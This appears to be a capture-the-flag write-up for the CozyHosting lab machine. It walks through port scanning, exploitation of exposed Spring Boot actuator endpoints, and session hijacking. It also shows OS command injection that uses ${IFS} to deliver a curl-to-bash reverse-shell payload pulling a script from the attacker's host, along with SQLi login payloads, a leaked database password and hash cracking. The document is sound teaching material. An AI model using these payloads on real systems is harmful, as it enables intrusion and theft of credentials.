


Today we will resolve CozyHosting.

CozyHosting is a Linux machine with a level of dicultay easy.

In this machine, we will see some basic directory enumaration that will lead to find some actuator exposes.

Finally we will escalate privileges abusing of sudo permissions


## INTRO

* Name: Cozyhosting

* S.O: Linux

* IP address: 10.10.11.230

* Difficulty: Easy


## RECON

We will start with a TCP SYN-ACK (sS) scan on all the ports (-p-), sending requests  in mode Insane(T5) and with a rate of 5000, as we want to go very fast and the network is controlled. We also want to avoid name resolution (-n) and host discovery (Pn) and we will save the output in nmap format (oN), but providing all the verbose information via the console (vvv).


```bash 
nmap -p- -sS --min-rate 5000 -vvv -n -T5 -Pn -oN cozyhosting_nmap.output 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.12s latency).
Scanned at 2023-12-22 17:37:00 CET for 44s
Not shown: 65498 closed tcp ports (reset), 34 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63

```


We find 2 open ports 22 and 80


## ENUMERATION

**I will start with some basic enumeration (sCV) on http and ssh services**


```bash 
nmap -sCV 10.10.11.230 -p22,80 -o cozyhosting_servicios.output
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-22 17:42 CET
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)

```

On 80 port there is a nginx 1.18.0 running, the OS is ubuntu, and apart from that, we don't observe any interesting thing.


**As usual, in order to get further information about frameworks, technologies, e-mails, users,..., We will start with Whatweb command**


```bash
# whatweb http://cozyhosting.htb                                                          
http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]

```

We see some e-mail, let’s take note: **info@cozyhosting.htb**,  who knows if we will need it in the future,  and apart from that, nothing else to highliht.

**We visit the webpage http://cozyhosting.htb.**

and there is a login form


I try some basic  passwords, admin/admin, admin/password, admin/1234 and some basic sqli paylodas
admin’ or 1=1– -
admin’ or 1=1#

And after some basic enumeration, we don't see any clear path to compromise the machine, so we will keep enumerating.

**Next step is to find out directories or subdomains under cozyhosting.htb**


For directory discovery, we can use different tools, Today, I will use a tool called dirsearch


```bash
└─# dirsearch -u http://cozyhosting.htb/  

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/alter/reports/http_cozyhosting.htb/__23-12-23_21-10-21.txt

Target: http://cozyhosting.htb/

[21:10:21] Starting:                                                                                                       
[21:10:35] 200 -    0B  - /;/admin                                          
[21:10:35] 200 -    0B  - /;/json
[21:10:35] 200 -    0B  - /;json/
[21:10:35] 200 -    0B  - /;/login
[21:10:35] 200 -    0B  - /;admin/
[21:10:35] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:10:35] 200 -    0B  - /;login/                                          
[21:10:37] 400 -  435B  - /a%5c.aspx                                        
[21:10:38] 200 -    0B  - /actuator/;/auditevents                           
[21:10:38] 200 -  634B  - /actuator                                         
[21:10:38] 200 -    0B  - /actuator/;/conditions
[21:10:38] 200 -    0B  - /actuator/;/caches
[21:10:38] 200 -    0B  - /actuator/;/env
[21:10:38] 200 -    0B  - /actuator/;/dump
[21:10:38] 200 -    0B  - /actuator/;/configurationMetadata
[21:10:38] 200 -    0B  - /actuator/;/events
[21:10:38] 200 -    0B  - /actuator/;/integrationgraph
[21:10:38] 200 -    0B  - /actuator/;/info
[21:10:38] 200 -    0B  - /actuator/;/features
[21:10:38] 200 -    0B  - /actuator/;/flyway
[21:10:38] 200 -    0B  - /actuator/;/auditLog
[21:10:38] 200 -    0B  - /actuator/;/heapdump
[21:10:38] 200 -    0B  - /actuator/;/configprops
[21:10:38] 200 -    0B  - /actuator/;/exportRegisteredServices
[21:10:38] 200 -    0B  - /actuator/;/health
[21:10:38] 200 -    0B  - /actuator/;/healthcheck
[21:10:38] 200 -    0B  - /actuator/;/beans
[21:10:38] 200 -    0B  - /actuator/;/httptrace
[21:10:38] 200 -    0B  - /actuator/;/jolokia
[21:10:38] 200 -    0B  - /actuator/;/liquibase
[21:10:38] 200 -    0B  - /actuator/;/logfile
[21:10:38] 200 -    0B  - /actuator/;/loggers
[21:10:38] 200 -    0B  - /actuator/;/mappings
[21:10:38] 200 -    0B  - /actuator/;/loggingConfig
[21:10:38] 200 -    0B  - /actuator/;/metrics
[21:10:38] 200 -    0B  - /actuator/;/prometheus
[21:10:38] 200 -    0B  - /actuator/;/refresh
[21:10:38] 200 -    0B  - /actuator/;/releaseAttributes
[21:10:38] 200 -    0B  - /actuator/;/resolveAttributes
[21:10:38] 200 -    0B  - /actuator/;/scheduledtasks
[21:10:38] 200 -    0B  - /actuator/;/status
[21:10:38] 200 -    0B  - /actuator/;/statistics
[21:10:38] 200 -    0B  - /actuator/;/threaddump
[21:10:38] 200 -    0B  - /actuator/;/springWebflow
[21:10:38] 200 -    0B  - /actuator/;/ssoSessions
[21:10:38] 200 -    0B  - /actuator/;/shutdown
[21:10:38] 200 -    0B  - /actuator/;/sessions
[21:10:38] 200 -    0B  - /actuator/;/trace
[21:10:38] 200 -    0B  - /actuator/;/sso
[21:10:38] 200 -    0B  - /actuator/;/registeredServices
[21:10:39] 200 -    5KB - /actuator/env                                     
[21:10:39] 200 -   15B  - /actuator/health                                  
[21:10:39] 200 -   95B  - /actuator/sessions                                
[21:10:39] 200 -   10KB - /actuator/mappings                                
[21:10:39] 200 -  124KB - /actuator/beans                                   
[21:10:40] 401 -   97B  - /admin                                            
[21:10:40] 200 -    0B  - /admin/%3bindex/                                  
[21:10:42] 200 -    0B  - /Admin;/                                          
[21:10:42] 200 -    0B  - /admin;/                                          
[21:10:54] 200 -    0B  - /axis2-web//HappyAxis.jsp                         
[21:10:54] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
[21:10:54] 200 -    0B  - /axis//happyaxis.jsp                              
[21:10:59] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:11:08] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf       
[21:11:08] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:11:08] 500 -   73B  - /error                                            
[21:11:09] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[21:11:09] 200 -    0B  - /extjs/resources//charts.swf                      
[21:11:15] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf            
[21:11:18] 200 -    0B  - /jkstatus;                                        
[21:11:21] 200 -    4KB - /login                                            
[21:11:21] 200 -    0B  - /login.wdm%2e                                     
[21:11:22] 204 -    0B  - /logout     
 ```

We have found an interesting directory "actuator"

that means we are in front of a spring boot application

### What is spring boot actuator

The actuator mainly exposes operational information about the running application — health, metrics, info, dump, env, etc. It uses HTTP endpoints or JMX beans to enable us to interact with it.

Among different actuators some important ones:

* **/env** returns the current environment properties. Additionally, we can retrieve single properties.
* **/logfile** returns ordinary application logs.
* **/heapdump** builds and returns a heap dump from the JVM used by our application.
Further information
 [https://www.baeldung.com/spring-boot-actuators](https://www.baeldung.com/spring-boot-actuators){:target="_blank"}

So first step is to get the list of actuators exposed on cozyhosting


```bash
curl -X GET http://cozyhosting.htb/actuator | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   634    0   634    0     0    979      0 --:--:-- --:--:-- --:--:--   978
{
    "_links": {
        "self": {
            "href": "http://localhost:8080/actuator",
            "templated": false
        },
        "sessions": {
            "href": "http://localhost:8080/actuator/sessions",
            "templated": false
        },
        "beans": {
            "href": "http://localhost:8080/actuator/beans",
            "templated": false
        },
        "health": {
            "href": "http://localhost:8080/actuator/health",
            "templated": false
        },
        "health-path": {
            "href": "http://localhost:8080/actuator/health/{*path}",
            "templated": true
        },
        "env": {
            "href": "http://localhost:8080/actuator/env",
            "templated": false
        },
        "env-toMatch": {
            "href": "http://localhost:8080/actuator/env/{toMatch}",
            "templated": true
        },
        "mappings": {
            "href": "http://localhost:8080/actuator/mappings",
            "templated": false
        }
    }
}
```

There is an interesting one, sessions, maybe sessions can return some active session that would allow us to bypass the authentication form.


```bash
curl -X GET http://cozyhosting.htb/actuator/sessions | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   198    0   198    0     0    747      0 --:--:-- --:--:-- --:--:--   747
{
    "34C1F386F75DA82A05F4807EA318E0DF": "UNAUTHORIZED",
    "6B496FD544CB753F6D294E1127064FED": "kanderson",
    "DCDCCA5D15C63967999EB09C17EDBE00": "UNAUTHORIZED",
    "F757FC42C4339352AD09C44236C0116C": "UNAUTHORIZED"
}
```

## EXPLOITATION

The actuator "session" is returning  an active user "kanderson" and its JSESSIONID 

With this info, we could log in the platform and bypass the authentication mechanism.


So we can use burp suite to capture the request and update the JSSESIONID, with kanderson's ssessionid.


And here you are, we have bypassed the authentication mechanism.



Once we are inside the application, we see an interesting feature that implement some connection functionality where you have to pass a hostname and the user, so it looks like behing this feature there would be a ssh command.


We are going to test that functionality in order to be able to understand the logic behind that feature.

We try different things:


We provide this payload as username:



And we got next error:

```bash
usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: alter@10.10.14.192: command not found
                                                                             
```

So this error reveal us that the application is calling the ssh OS command but the user input is not sanitized properly.

So we have a OS command Injection

### OS Command Injection

OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

You can find further information in this link:

 [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection){:target="_blank"}

As part of our tests, we realize the developer implemented some filter to detect whitespaces, trying to avoid a command injection, but we can bypass this filter using this technique:

**IFS stands for "internal field separator"**

### What is IFS

The shell has one environment variable, which is called the Internal Field Separator (IFS). This variable indicates how the words are separated on the command line. The IFS variable is, normally or by default, a white space (' '). The IFS variable is used as a word separator (token) for the for command.

So in order to bypass that sanitization, we can use the environment variable: ${IFS} as a white space for our reverse shell payload.

To try our asumption, we can just craft a simple payload that will trigger a ping.
If it works, we will be able to capture the icmp package receive by our local machine


And as we can see, we receive the ping, so the IFS variable technique worked.

**Now we are going to create a payload to get a reverse shell.**

```bash
host=10.10.14.192&username=;curl${IFS}http://10.10.14.192/rev.sh${IFS}|bash;alter
```
The payload is going to use curl command to access my reverse shell hosting on my local machine and the output will be the input for bash:


And we get a shell as "app" user


## PRIV ESCALATION TO JOSH

app user does not have enough permissions to read the flag.txt file, which belongs to Josh user. 
So now we need to figure out how to escalate our priviledges to Joshua ones.

In app's home directory we find the cloudhosting-0.0.1.jar file, probably this jar will contain the source code of the application, so I am goingto download to my local machine and inspect the jar to see if we are able to capture some credentials or something that can lead to escalate our privileges.


We find this springboot properties file where we can see some credentials for the postgresql database used by the application
```bash 
BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

So, probably the DB will store the josh credentials, so we are going to connect to the DB using those credentials 

And in the users table we found below admin & its hash stored.


So, probably admin user could lead us to log in the cozyhosting as josh user.

In order to crack the hash, we will use john and rockyou dictionary

```bash
john –wordlist=/usr/shared/wordlist/rockyou.txt hash.txt
```
If we are lucky, Josh's password is a weak one, and we will be able to break it.

And yes, it worked.

```bash
it worked and we got below “man**********ted”
```

Now if my assumption was correct we will be able to log in as josh user  providing the password we cracked.

```bash
ssh -l josh 10.10.11.230  
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
josh@cozyhosting:~$ whoami
josh
josh@cozyhosting:~$
```


## PRIVILEGE ESCALATION TO ROOT

Usually I start with some basic enumeration commands, like sudo -l

### What is sudo command

The sudo command allows us to run programs with the security privileges of another user (by default, as the superuser).

Click on the link to learn more about it:  [https://kb.iu.edu/d/amyi](https://kb.iu.edu/d/amyi){:target="_blank"}

**We run the sudo -l command** to check what sudo commands are allowed to be invoked by josh.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ 
```

and **sudo -l** command returns something interesting.

josh user can use sudo to run ssh command as root

So first thing first, which is  look into gtfobins resource, where we have several techniques to escalate privileges abusing of sudo.

[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo){:target="_blank"}


Just we need to try it


